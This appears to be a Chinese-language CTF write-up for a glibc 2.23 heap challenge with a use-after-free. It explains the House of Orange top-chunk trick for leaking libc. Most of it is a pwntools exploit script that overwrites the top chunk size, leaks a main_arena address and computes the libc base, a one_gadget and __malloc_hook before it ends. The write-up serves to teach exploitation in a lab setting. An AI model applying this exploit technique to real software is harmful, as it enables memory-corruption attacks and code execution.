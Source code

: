 经典堆题，del中有UAF，但是**限制了show和del的次数只有一次**

![Untitled](ciscn2.png)

如果没有这个限制，那是可以直接指定unsorted bin的main_arena来泄露libc，然后fastbin attack（2.23版本的libc甚至没有tcache），但这样肯定就不止del一次chunk

这里就使用到了house of orange的知识：

- **将Top chunk的长度修改，然后申请一个比修改长度更大的chunk，这样可以让old Top chunk被放置于unsorted bin中**，节省一次del

以下是exp：

```python
from pwn import *
import warnings

warnings.filterwarnings('ignore')

def add(length,content):
    io.sendlineafter(b'choice:',b'1')
    io.sendlineafter(b"length of the diary content:",str(length))
    io.sendlineafter(b"the diary content:\n",content)

def show():
    io.sendlineafter(b'choice:',b'2')

def delete():
    io.sendlineafter(b'choice:',b'3')

def edit(size,content):
    io.sendlineafter(b'choice:',b'4')
    io.sendlineafter(b'content:',str(size).encode())
    io.sendlineafter(b'content:\n',content)

io = process('./pwn')
libc = ELF('./libc-2.23.so')
context.log_level = 'debug'

io.sendlineafter(b' name.\n',b'aaa')
io.recvuntil(b'stories.\n')

add(0x18,'aaaa')
# 修改Top chunk的大小，注意这个大小与top chun k的地址相加需要满足页对齐，也就是0x1000(4k)的地址对其
edit(0x20,p64(0)*3+p64(0xfe1))  
add(0x1000,'thanyi1')

add(0x500,'thanyi2')
show()
some_main_arena = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

# libc base 永远和main_arena的偏移是固定的
libc.address = some_main_arena-0x3c5188
ogg = libc.address+ 0xf03a4
malloc_hook = libc.sym['__malloc_hook'] # malloc_hook其实就是main_arena-0x10

info(f'{libc.address =:x}')
info(f'{malloc_hook =:x}')

```